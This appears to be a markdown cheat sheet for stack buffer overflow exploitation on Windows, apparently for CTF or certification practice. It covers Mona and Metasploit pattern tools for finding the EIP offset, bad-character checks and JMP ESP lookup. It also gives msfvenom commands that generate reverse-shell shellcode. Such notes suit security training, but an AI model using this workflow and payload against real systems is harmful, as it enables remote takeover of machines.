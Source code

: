 # Find EIP offset
## gdb
## r2
## cmdline

# Immunity Debugger + Mona
- Set Mona Working Folder
```
!mona config -set workingfolder c:\mona\%p
```
- Generate pattern
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000
```
- After crash, note EIP value then identify the offset:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 2012
```
- Compare memory with bytearray to find bad chars
```
!mona bytearray
!mona compare -a esp -f c:\path\to\bytearray.bin
```
- Find JMP ESP Address
```
!mona jmp -r esp
```
- Generate shellcode
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\x00" -f python EXITFUNC=thread
```
- Generate byte string
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

## Links
___
### Guides

### Writeups
- https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w
- https://noxious.tech/posts/Brainstorm/